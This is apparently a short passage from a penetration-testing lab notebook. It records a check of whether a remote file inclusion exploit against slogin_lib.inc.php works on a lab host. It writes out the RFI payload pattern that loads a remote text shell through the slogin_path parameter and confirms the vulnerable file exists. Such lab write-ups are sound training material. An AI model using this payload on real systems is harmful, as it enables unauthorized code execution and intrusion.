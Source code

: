 
# 18. Check if RFI works on 7444.txt exploit. 
**[!] EXPLOIT: /[path]/slogin_lib.inc.php?slogin_path=[remote_txt_shell]**
![cc7a73edde7ba780815ee253f8e0aefc.png](../../../_resources/7b9fdcb2b11a4d4da2f992fae7f5f2eb.png)

## Confirm if slogin_lib.inc.php exists... yes it does
### Navigate to the site on a browser
[http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php](http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php)
![e7d83b3f0b51d5358ef0a5bc596780d3.png](../../../_resources/4c4024bf825e44b6a8c2ecfb16d04c03.png)
